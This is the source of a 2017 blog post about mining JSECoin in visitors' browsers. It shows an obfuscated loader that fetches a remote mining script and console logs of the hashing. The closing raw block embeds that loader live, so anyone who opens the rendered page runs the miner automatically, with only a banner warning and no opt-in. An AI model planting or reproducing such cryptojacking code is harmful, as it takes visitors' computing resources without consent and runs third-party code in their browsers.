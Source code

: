```yaml
---
title: Mining Cryptocurrency on Web
date: 2017-12-22 11:49:28
tags:
  - Blockchain
  - Cryptocurrency
category:
  - Misc
---
```


![](cryptocurrency.png)

**Warning: A background script is running**

You can join [JSECoin](https://platform.jsecoin.com/?lander=1&utm_source=referral&utm_campaign=aff44704&utm_content=)

The JSECoin cannot trade to other cryptocurrency nor currency, so it is just for fun. Imagine whoever visit this page will run the mining for me!

I have embed below script in this page to run,
{% codeblock lang:html %}
<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/44704/neo.works/0/0/",s.parentNode.insertBefore(t,s)}();
</script>
{% endcodeblock %}

You can see it is running from browse's console,
```
Loaded https://load.jsecoin.com:443/socket.io/socket.io.js
0:1:3586
JSE Socket Connected!
0:1:3928
JSE Inital Data Received: a2452179311fff147a3c1f91d860e9f959ab95578468642b8dca79b8fad73e06
0:1:4121
JSE Privacy Notice Displayed
0:1:5629
JSE Data Received (690hps): c4be9d0e846985b6cc26c0fb988eec3cb22074f760b3c45c5043450041002ca7
0:1:4259
JSE Data Received (362hps): f4ab0b4e73201d36e8e4a4cd4c7a5abc4db698ebe6df616f880f2a50259e7666
```

If you have AdBlocker installed, the script will failed with below console message,

```
net::ERR_BLOCKED_BY_CLIENT
```

{% raw %}
<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/44704/neo.works/0/0/",s.parentNode.insertBefore(t,s)}();
</script>
{% endraw %}
